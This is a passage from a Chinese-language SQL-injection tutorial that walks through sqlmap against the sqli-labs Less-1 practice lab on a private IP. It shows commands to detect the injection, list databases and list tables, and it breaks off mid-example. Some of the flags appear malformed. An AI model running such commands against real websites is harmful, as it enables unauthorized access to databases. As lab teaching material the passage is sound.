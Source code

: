 \#列出数据库所有管理员角色，仅适用于oracle数据库的时候

## 5.3.**案例**

### 5.3.1.**案例**sql-labs-less-1 测试注入

#### 5.3.1.1.**探测是否存在漏洞**

命令：sqlmap -u http://192.168.10.150/sqlilabs/Less-1/?id=1

![img](assets/4yrQwWXBlMoVhtO.jpg) 

#### 5.3.1.2.**查询当前用户下的所有数据库**

命令：sqlmap -u http://192.168.10.150/sqlilabs/Less-1/?id=1 -dbs

![img](assets/MeyFE8dcLWUZ9lG.jpg) 

#### 5.3.1.3.**获取数据库中的表**

命令：sqlmap -u http://192.168.10.150/sqlilabs/Less-1/?id=1 -D security -tables
